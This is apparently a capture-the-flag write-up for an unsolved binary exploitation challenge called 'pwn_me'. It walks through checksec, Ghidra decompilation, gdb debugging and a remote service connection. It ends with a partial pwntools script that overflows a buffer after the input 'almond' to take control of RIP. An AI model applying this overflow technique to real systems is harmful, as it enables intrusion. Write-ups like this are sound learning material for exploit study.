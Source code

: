 # PWN1

Status: Unsolved

With all binaries, want to start with checking the security structures
```
$ checksec pwn_me
[*] '/home/ubuntu/CCT_2020/PWN/pwn1/pwn_me'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Alright with PIE and NX, we are in for a bit of a treat possibly, but no canary so overflows are possibly.

Ok so now we just run the executable to see what we are working with
```
$ chmod u+x pwn_me
$ ./pwn_me
0x7fc9d969bca0
Cookie Monster ONLY Wants...
PROMPT>ello
PROMPT>^C
```
So we have some sort of address put out, a message, then a never eneding prompt. Does this same behavior happen on the remote service"

```
$ ping www.cybercompetitionteam.com
64 bytes from 64.227.23.177 (64.227.23.177): icmp_seq=1 ttl=38 time=8.87 ms
$ nc 64.227.23.177 1337
0x7f9a13971ca0
Cookie Monster ONLY Wants...
PROMPT>
```
Yep, behavior is the same.

Pumping the binary into Ghidra we see on line 62
```
printf("%p\n",*chunks[7]);
```
This is the pointer being putout, which is pointer partway into this stack buffer.

Dropping this into gdb to manipulate the win funciton:
```
$ gdb pwn_me
> disass main
> b *main+494
> r
> set $rax=1
> c
Segmentation fault
```
So something is happening with the pointers it is referencing if we try and jump it. This tells me we may have to play by the game of the binary, rather than going for an overflow.

In Ghidra in the check cookies function we see
```
    iVar1 = strcmp(input,"snickerdoodles");
    if (iVar1 == 0) {
      iVar1 = 0;
    }
    else {
      iVar1 = strcmp(input,"oatmeal");
      if (iVar1 == 0) {
        iVar1 = 0;
      }
      else {
        iVar1 = strcmp(input,"gingersnap");
        if (iVar1 == 0) {
          iVar1 = 0;
        }
        else {
          iVar1 = strcmp(input,"shortbread");
          if (iVar1 == 0) {
            iVar1 = 0;
          }
          else {
            iVar1 = strcmp(input,"butter");
            if (iVar1 == 0) {
              iVar1 = 0;
            }
            else {
              iVar1 = strcmp(input,"molasses");
              if (iVar1 == 0) {
                iVar1 = 0;
              }
              else {
                iVar1 = strcmp(input,"sugar");
                if (iVar1 == 0) {
                  iVar1 = 0;
                }
                else {
                  iVar1 = strcmp(input,"sugar");
                  if (iVar1 == 0) {
                    iVar1 = 0;
                  }
                  else {
                    iVar1 = strcmp(input,"sugar");
                    if (iVar1 == 0) {
                      iVar1 = 0;
                    }
                    else {
                      iVar1 = strcmp(input,"almond");
                      if (iVar1 == 0) {
                        iVar1 = 1;
                      }
                      else {
                        iVar1 = strcmp(input,"toffee");
                        if (iVar1 == 0) {
                          iVar1 = 0;
                        }
                        else {
                          iVar1 = strcmp(input,"maple");
                          if (iVar1 == 0) {
                            iVar1 = 0;
                          }
                          else {
                            iVar1 = strcmp(input,"fluffernutter");
                            if (iVar1 == 0) {
                              iVar1 = 0;
                            }
                            else {
                              iVar1 = 0;
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return iVar1;
}
```

So lets see where entering this into the funciton works for us
```
$ gdb pwn_me
> b get_cookie
> r
snickerdoodles
```
So as long as I have a space afte snickerdoodles, I am fine. So it is sending me back into the function. Let's see whet this all looks like when I enter the inputs it is looking for

```
$ ./pwn_me
0x7fb480ae5ca0
Cookie Monster ONLY Wants...
PROMPT>almond


Segmentation fault (core dumped)
```
Alright, that is interesting, what is happening here?
```
$ gdb pwn_me 
> b *main+494 //right after the return from get_cookie
> r
```

So the `memcpy` call puts the input into another address ... boom, there it is. The puts call (`*main+549) prints everything after the space in almond, so we just need to overflow that until we get to the flag. 

Wait no, we want shell, not a flag. Maybe it is a printf vulnerability?  

Ok, we soldier on, why is the segfault happening? 
```
$ gdb pwn_me
> b *main+0
> reg
RBP  0x555555555620 (__libc_csu_init)
> b *main+559 // the leave of main
> si
> x/dx $rsp
0x00000
```

So something is happening here where the stack is shifting causing the segfault, the question is, can we control that?

Well, lets see if we can overwite rip, get us some options.

Boom, got it with pwntools
```
from pwn import *

p = process("./pwn_me")
payload = "almond "
payload += "A"*417
payload += "B"*8
p.sendline(payload)
print(p.recv())
```

So we have RIP control, we are going to need to leak an address to figure out libc.
